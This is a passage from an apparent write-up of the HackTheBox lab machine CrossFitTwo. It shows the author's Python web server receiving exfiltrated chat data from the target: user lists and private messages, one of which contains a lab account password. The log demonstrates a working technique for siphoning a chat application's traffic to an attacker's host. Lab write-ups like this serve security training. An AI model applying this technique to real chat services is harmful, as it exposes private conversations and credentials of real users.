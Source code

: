 And on port 8000 web server:
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo/]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.232 - - [14/Aug/2021 14:02:20] "GET /socket.io.min.js HTTP/1.1" 200 -
10.10.10.232 - - [14/Aug/2021 14:02:21] code 404, message File not found
10.10.10.232 - - [14/Aug/2021 14:02:21] "GET /new_user/%7B%22_id%22:1,%22username%22:%22Admin%22,%22status%22:%7B%22state%22:%22online%22%7D%7D HTTP/1.1" 404 -
10.10.10.232 - - [14/Aug/2021 14:02:21] code 404, message File not found
10.10.10.232 - - [14/Aug/2021 14:02:21] "GET /participants/[%7B%22_id%22:11,%22username%22:%22Lucille%22,%22status%22:%7B%22state%22:%22online%22%7D%7D,%7B%22_id%22:12,%22username%22:%22Boris%22,%22status%22:%7B%22state%22:%22online%22%7D%7D,%7B%22_id%22:2,%22username%22:%22John%22,%22status%22:%7B%22state%22:%22online%22%7D%7D,%7B%22_id%22:13,%22username%22:%22Pepe%22,%22status%22:%7B%22state%22:%22online%22%7D%7D,%7B%22_id%22:14,%22username%22:%22Polarbear%22,%22status%22:%7B%22state%22:%22online%22%7D%7D,%7B%22_id%22:15,%22username%22:%22Minato%22,%22status%22:%7B%22state%22:%22online%22%7D%7D,%7B%22_id%22:1,%22username%22:%22Admin%22,%22status%22:%7B%22state%22:%22online%22%7D%7D] HTTP/1.1" 404 -
10.10.10.232 - - [14/Aug/2021 14:03:05] code 404, message File not found
10.10.10.232 - - [14/Aug/2021 14:03:05] "GET /private_recv/%7B%22sender_id%22:2,%22content%22:%22Hello%20David,%20I've%20added%20a%20user%20account%20for%20you%20with%20the%20password%20%60NWBFcSe3ws4VDhTB%60.%22,%22roomId%22:2,%22_id%22:1854%7D HTTP/1.1" 404 -
10.10.10.232 - - [14/Aug/2021 14:03:05] code 404, message File not found
10.10.10.232 - - [14/Aug/2021 14:03:05] "GET /private_recv/%7B%22sender_id%22:14,%22content%22:%22I%20hate%20my%20favorite%20web%20series%20get%20cancelled%20and%20shitty%20ones%20stick%20around.%22,%22roomId%22:14,%22_id%22:1855%7D HTTP/1.1" 404 -
10.10.10.232 - - [14/Aug/2021 14:03:05] code 404, message File not found
10.10.10.232 - - [14/Aug/2021 14:03:05] "GET /recv_global/%7B%22sender_id%22:15,%22content%22:%22Do%20you%20like%20rap%20music?%22,%22roomId%22:%22global%22,%22_id%22:1856,%22username%22:%22Minato%22} HTTP/1.1" 404 -
10.10.10.232 - - [14/Aug/2021 14:03:57] code 404, message File not found
10.10.10.232 - - [14/Aug/2021 14:03:57] "GET /private_recv/%7B%22sender_id%22:15,%22content%22:%22Do%20you%20like%20rap%20music?%22,%22roomId%22:15,%22_id%22:1857} HTTP/1.1" 404 -
10.10.10.232 - - [14/Aug/2021 14:03:57] code 404, message File not found
10.10.10.232 - - [14/Aug/2021 14:03:57] "GET /recv_global/%7B%22sender_id%22:12,%22content%22:%22Do%20you%20like%20dogs%20by%20the%20way?%20We%20used%20to%20have%20a%20husky%20ourselves%22,%22roomId%22:%22global%22,%22_id%22:1858,%22username%22:%22Boris%22} HTTP/1.1" 404 -
10.10.10.232 - - [14/Aug/2021 14:04:17] code 404, message File not found
10.10.10.232 - - [14/Aug/2021 14:04:17] "GET /private_recv/%7B%22sender_id%22:2,%22content%22:%22Hello%20David,%20I've%20added%20a%20user%20account%20for%20you%20with%20the%20password%20%60NWBFcSe3ws4VDhTB%60.%22,%22roomId%22:2,%22_id%22:1859%7D HTTP/1.1" 404 -
10.10.10.232 - - [14/Aug/2021 14:04:48] code 404, message File not found
10.10.10.232 - - [14/Aug/2021 14:04:48] "GET /recv_global/%7B%22sender_id%22:11,%22content%22:%22Do%20you%20like%20dogs%20by%20the%20way?%20We%20used%20to%20have%20a%20husky%20ourselves%22,%22roomId%22:%22global%22,%22_id%22:1860,%22username%22:%22Lucille%22} HTTP/1.1" 404 -
10.10.10.232 - - [14/Aug/2021 14:04:49] code 404, message File not found
10.10.10.232 - - [14/Aug/2021 14:04:49] "GET /private_recv/%7B%22sender_id%22:14,%22content%22:%22I%20hate%20my%20favorite%20web%20series%20get%20cancelled%20and%20shitty%20ones%20stick%20around.%22,%22roomId%22:14,%22_id%22:1861%7D HTTP/1.1" 404 -
```

So as we can see we got the following chat meeesage (After decode):
```json
[{"_id":11,"username":"Lucille","status":{"state":"online"}},{"_id":12,"username":"Boris","status":{"state":"online"}},{"_id":2,"username":"John","status":{"state":"online"}},{"_id":13,"username":"Pepe","status":{"state":"online"}},{"_id":14,"username":"Polarbear","status":{"state":"online"}},{"_id":15,"username":"Minato","status":{"state":"online"}},{"_id":1,"username":"Admin","status":{"state":"online"}}]


{"sender_id":14,"content":"I hate my favorite web series get cancelled and shitty ones stick around.","roomId":14,"_id":1855}


```